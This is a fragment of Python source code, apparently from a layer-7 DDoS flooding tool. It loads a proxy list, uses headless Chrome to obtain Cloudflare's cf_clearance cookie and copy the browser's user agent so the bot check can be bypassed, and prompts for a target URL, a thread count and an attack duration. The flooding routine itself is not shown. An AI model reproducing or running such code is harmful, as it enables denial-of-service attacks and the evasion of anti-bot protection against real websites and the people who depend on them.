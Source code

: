 
def get_proxies():
    global proxies
    if not os.path.exists("./http.txt"):
        stdout.write(Fore.MAGENTA+" [*]"+Fore.WHITE+" You Need Proxy File ( ./http.txt )\n")
        return False
    proxies = open("./http.txt", 'r').read().split('\n')
    return True

def get_cookie(url):
    global useragent, cookieJAR, cookie
    options = webdriver.ChromeOptions()
    arguments = [
    '--no-sandbox', '--disable-setuid-sandbox', '--disable-infobars', '--disable-logging', '--disable-login-animations',
    '--disable-notifications', '--disable-gpu', '--headless', '--lang=ko_KR', '--start-maxmized',
    '--user-agent=Mozilla/5.0 (iPhone; CPU iPhone OS 10_3_3 like Mac OS X) AppleWebKit/603.3.8 (KHTML, like Gecko) Mobile/14G60 MicroMessenger/6.5.18 NetType/WIFI Language/en' 
    ]
    for argument in arguments:
        options.add_argument(argument)
    driver = webdriver.Chrome(options=options)
    driver.implicitly_wait(3)
    driver.get(url)
    for _ in range(60):
        cookies = driver.get_cookies()
        tryy = 0
        for i in cookies:
            if i['name'] == 'cf_clearance':
                cookieJAR = driver.get_cookies()[tryy]
                useragent = driver.execute_script("return navigator.userAgent")
                cookie = f"{cookieJAR['name']}={cookieJAR['value']}"
                driver.quit()
                return True
            else:
                tryy += 1
                pass
        time.sleep(1)
    driver.quit()
    return False
##############################################################################################
def get_info_l7():
    stdout.write("\x1b[38;2;255;20;147m • "+Fore.WHITE+"URL      "+Fore.LIGHTGREEN_EX+": "+Fore.LIGHTGREEN_EX)
    target = input()
    stdout.write("\x1b[38;2;255;20;147m • "+Fore.WHITE+"THREAD   "+Fore.LIGHTGREEN_EX+": "+Fore.LIGHTGREEN_EX)
    thread = input()
    stdout.write("\x1b[38;2;255;20;147m • "+Fore.WHITE+"TIME(s)  "+Fore.LIGHTGREEN_EX+": "+Fore.LIGHTGREEN_EX)
    t = input()
    return target, thread, t
